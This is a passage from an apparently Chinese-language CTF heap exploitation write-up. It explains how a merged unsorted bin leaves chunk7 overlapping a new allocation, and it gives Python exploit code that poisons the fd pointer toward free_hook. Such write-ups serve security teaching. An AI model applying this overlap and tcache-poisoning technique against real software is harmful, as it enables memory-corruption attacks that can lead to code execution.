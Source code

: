 [![](assets/1701606615-9bc90de2ced3d82c4288d816f239ecc3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213050-31306870-83bb-1.png)  
可以看到unsortedbin中已经合并了  
这时候chunk7还保留了chunk指针，然后我们在合并的unsorted bin 中申请chunk，这时候chunk7和申请的chunk有重叠的部分，我们就可以去修改chunk7来改fd了

```plain
for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')

delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)

edit(7,pl)
```

[![](assets/1701606615-fff09e87296afbe7ee5709f2a9b511f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213111-3d9d2152-83bb-1.png)
